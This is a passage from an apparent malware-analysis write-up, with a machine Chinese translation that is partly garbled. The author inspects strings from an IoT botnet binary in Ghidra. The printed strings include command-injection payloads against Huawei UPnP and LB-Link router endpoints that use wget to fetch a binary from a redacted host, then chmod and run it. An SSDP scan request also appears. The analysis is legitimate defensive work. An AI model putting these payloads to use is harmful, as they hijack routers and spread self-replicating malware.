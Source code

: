 This appears to be exploiting `zhttpd` which a quick search points out is an exploit available in Zyxel devices. Like the previous exploit, I decided to download the binary and poke around in Ghidra. Fortunately this time, the binary was not packed and as a result see what strings were contained to get a sense of what it was intended to do.  
这似乎是利用 `zhttpd` ，快速搜索指出这是 Zyxel 设备中可用的漏洞。与之前的漏洞一样，我决定下载二进制文件并在 Ghidra 中四处闲逛。幸运的是，这一次，二进制文件没有被打包，因此查看包含哪些字符串以了解它的意图。

Looking through the strings a few items stood out.  
透过琴弦，有几件物品很突出。

```
004266a4    SNQUERY: xxx.xxx.xxx.xxx:AAAAAA:xsvr  "SNQUERY: xxx.xxx.xxx.xxx:AAAAAA:xsvr"    ds
004266c8    M-SEARCH * HTTP/1.1
HOST: xxx.xxx.xxx.xxx:1900
MAN: "ssdp:discover"
MX: 1
ST: urn:dial-multiscreen-org:service:dial:1
USER-AGENT: Google Chrome/60.0.3112.90 Windows
 
    "M-SEARCH * HTTP/1.1\r\nHOST: xxx.xxx.xxx.xxx:1900\r\nMAN: \"ssdp:discover\"\r\nMX: 1\r\nST: urn:dial-multiscreen-org:service:dial:1\r\nUSER-AGENT: Google Chrome/60.0.3112.90 Windows\r\n\r\n" ds

...

00426fd0    HTTP/1.1 200 OK "HTTP/1.1 200 OK"   ds
00426fe0    skyljne.arm "skyljne.arm"   ds
00426fec    skyljne.arm5    "skyljne.arm5"  ds
00426ffc    skyljne.arm6    "skyljne.arm6"  ds
0042700c    skyljne.arm7    "skyljne.arm7"  ds
0042701c    skyljne.mips    "skyljne.mips"  ds
0042702c    skyljne.mpsl    "skyljne.mpsl"  ds
0042703c    skyljne.x86_64  "skyljne.x86_64"    ds
0042704c    skyljne.sh4 "skyljne.sh4"   ds
00427058    <?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1"><NewStatusURL>$(/bin/busybox wget -g xxx.xxx.xxx.xxx -l /tmp/linuxxx -r /huhu.mips; /bin/busybox chmod 777 /tmp/linuxxx; /tmp/linuxxx selfrep.huawei)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>    "<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g xxx.xxx.xxx.xxx -l /tmp/linuxxx -r /huhu.mips; /bin/busybox chmod 777 /tmp/linuxxx; /tmp/linuxxx selfrep.huawei)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>"  ds
00427234    POST /ctrlt/DeviceUpgrade_1 HTTP/1.1


```

Another DIAL protocol scan. Looking for vulnerable Huawei devices trying to download `huhu.mips` presumably as a form of self-replication.  
另一个 DIAL 协议扫描。寻找易受攻击的华为设备，试图下载 `huhu.mips` ，大概是一种自我复制的形式。

```
0042763c    POST /goform/set_LimitClient_cfg HTTP/1.1
Cookie: user=admin
 
time1=00:00-00:00&time2=00:00-00:00&mac=;rm -rf mpsl;wget http://xxx.xxx.xxx.xxx/huhu.mpsl; chmod 777 huhu.mpsl; ./huhu.mpsl lblink.selfrep;rm *mpsl*;
 
    "POST /goform/set_LimitClient_cfg HTTP/1.1\r\nCookie: user=admin\r\n\r\ntime1=00:00-00:00&time2=00:00-00:00&mac=;rm -rf mpsl;wget http://xxx.xxx.xxx.xxx/huhu.mpsl; chmod 777 huhu.mpsl; ./huhu.mpsl lblink.selfrep;rm *mpsl*;\r\n\r\n" ds


```
